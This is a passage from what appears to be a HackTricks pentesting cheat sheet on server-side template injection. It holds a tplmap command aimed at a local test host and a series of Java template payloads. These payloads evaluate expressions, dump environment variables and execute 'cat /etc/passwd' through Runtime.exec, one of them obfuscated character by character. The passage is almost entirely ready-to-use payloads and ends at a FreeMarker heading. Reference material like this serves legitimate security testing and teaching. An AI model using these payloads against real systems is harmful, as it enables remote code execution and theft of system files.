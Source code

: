 python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade

# 

Exploits[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits)

## 

Generic[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#generic)

In this **wordlist** you can find **variables defined** in the environments of some of the engines mentioned below:

-   ​[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)​
    

## 

Java[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java)

**Java - Basic injection**

${7*7}

${{7*7}}

${class.getClassLoader()}

${class.getResource("").getPath()}

${class.getResource("../../../../../index.htm").getContent()}

**Java - Retrieve the system’s environment variables**

${T(java.lang.System).getenv()}

**Java - Retrieve /etc/passwd**

${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

​

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}

## 

FreeMarker (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java)

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org/)​
